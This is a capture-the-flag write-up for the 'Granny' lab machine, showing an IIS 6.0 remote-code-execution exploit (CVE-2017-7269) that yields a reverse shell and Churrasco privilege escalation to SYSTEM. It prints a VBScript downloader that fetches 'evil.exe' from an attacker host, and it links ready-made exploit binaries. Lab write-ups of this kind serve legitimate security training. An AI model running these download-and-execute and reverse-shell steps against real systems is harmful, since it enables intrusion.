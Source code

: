 # Granny

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7) (3) (4) (1).png" alt=""><figcaption></figcaption></figure>

### IIS 6.0

This machine is running an outdated version of Microsoft IIS, which is vulnerable to a RCE exploit.

{% embed url="https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell" %}

Using this, we can gain a reverse shell easily:

<figure><img src="../../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Churrasco

We can enumerate the machine using `systeminfo`.

<figure><img src="../../../.gitbook/assets/image (15) (5).png" alt=""><figcaption></figcaption></figure>

This is a really old version of Windows that is outdated and vulnerable to loads of exploits. One exploit is the Churrasco exploit, which works on Windows Server 2003 machines. However, because this machine was so old, it was hard to transfer files over to it using conventional Windows methods.&#x20;

So, we would need to create a `wget` binaruy using vbs.&#x20;

```powershell
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
# Afterwards, you can run this.
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

Afterwards, we can download the binary from here:

{% embed url="https://github.com/Re4son/Churrasco/raw/master/churrasco.exe" %}

The exploit works through impersonating the SYSTEM user to execute commands by stealing the tokens from the worker processes run by the SYSTEM user.&#x20;

The exploit can be used to gain a reverse shell easily via `nc.exe`:

<figure><img src="../../../.gitbook/assets/image (10) (5) (2).png" alt=""><figcaption></figcaption></figure>

A listener port would have a shell as SYSTEM after execution.
